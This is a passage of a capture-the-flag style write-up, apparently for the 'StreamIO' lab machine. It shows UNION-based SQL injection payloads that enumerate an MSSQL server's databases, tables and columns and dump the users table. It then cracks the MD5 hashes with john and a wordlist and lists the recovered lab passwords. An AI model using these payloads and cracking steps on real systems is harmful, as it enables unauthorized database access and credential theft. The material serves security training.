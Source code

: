 ## SQL Injection

I manage to get response white trying union select with 6 columns 2,3 are viewable

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915153349.png)

Confirm with checking db version

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915153713.png)

Using cheat sheet I found 3 interesting databases

```
500' UNION SELECT 1,name,3,4,5,6 FROM master..sysdatabases -- 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915154005.png)

```
500' UNION SELECT 1,table_name,3,4,5,6 FROM information_schema.tables -- 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915155326.png)

```
500' UNION SELECT 1,column_name,3,4,5,6 FROM information_schema.columns -- 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915155221.png)

on so now we have db STREAMIO table users and columns password and username
For better output we can user `STRING_AGG(name, ', ')` 

```
500' UNION SELECT 1, STRING_AGG(CONCAT(username,' ',password),','),3,4,5,6 FROM users -- 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915160505.png)

I put output into ChatGPT to sort user:hash and then use john (because john have format option)

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915161022.png)

```
highschoolmusical (Thane)     
physics69i       (Lenord)     
paddpadd         (admin)     
66boysandgirls.. (yoshihide)     
%$clara          (Clara)     
$monique$1991$   (Bruno)     
$hadoW           (Barry)     
$3xybitch        (Juliette)     
##123a8j8w5123## (Lauren)     
!?Love?!123      (Michelle)     
!5psycho8!       (Victoria)     
!!sabrina$       (Sabrina)
```
